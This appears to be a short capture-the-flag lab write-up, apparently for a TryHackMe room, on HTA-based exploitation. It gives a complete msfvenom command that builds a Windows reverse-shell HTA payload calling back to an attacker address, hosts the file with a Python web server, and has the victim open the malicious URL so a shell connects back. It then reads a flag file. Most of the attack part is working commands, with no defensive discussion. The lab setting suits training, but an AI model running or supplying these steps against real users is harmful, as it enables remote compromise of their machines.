 # HTA Exploit Execution

## Generating the Payload

To create an **HTA (HTML Application) exploit**, use `msfvenom` as follows:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.188.37 LPORT=9933 -f hta-psh -o thm.hta
```

This command generates an **HTA payload** that will execute a **reverse shell** when opened.

---

## Hosting the Payload

Once the payload is generated, host it using a web server. For example:

```bash
python3 -m http.server 666
```

This makes the **HTA file** accessible at:

```
http://10.10.188.37:666/thm.hta
```

---

## Exploiting the Target

When the victim visits the malicious URL:

```
http://10.10.188.37:666/thm.hta
```

The **HTA payload** is executed, establishing a **reverse shell** back to our attack machine.

---

## Accessing the Flag

Once the **reverse shell** is established, retrieve the flag:

```bash
type /Users/thm/Desktop/flag.txt
```